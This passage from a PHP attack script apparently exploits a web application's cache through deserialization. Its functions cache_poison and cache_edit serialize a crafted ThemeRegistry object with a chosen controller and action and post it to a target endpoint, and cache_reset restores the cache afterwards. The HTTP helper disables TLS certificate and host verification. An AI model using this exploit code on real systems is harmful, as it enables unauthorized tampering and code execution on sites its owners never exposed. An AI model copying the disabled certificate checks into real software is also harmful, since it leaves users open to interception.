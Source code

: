 ```php
            "Content-Length: " . strlen($data)
        ];
        $url = $this->url . '/' . $this->controller . '/' . $this->action;
        $s = curl_init();
        curl_setopt($s, CURLOPT_URL, $url);
        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
        curl_setopt($s, CURLOPT_POST, 1);
        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
        $output = curl_exec($s);
        $error = curl_error($s);
        curl_close($s);
        if($error)
        {
            e("cURL: $error");
        }
        return json_decode($output);
    }
}
# Cache
function cache_poison($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
    cache_edit($tr);
}
function cache_reset($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, null, null);
    cache_edit($tr);
}
function cache_edit($tr)
{
    global $browser;
    $data = serialize([$tr]);
    $json = $browser->post(TYPE_PHP, $data);
}

# Utils
function x($message)
{
    print("$message\n");
}

function e($message)
{
    x($message);
    exit(1);
}

function store($name, $data)
{
    $filename = "$name.json";
    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
    x("Stored $name information in $filename");
}
?>
```

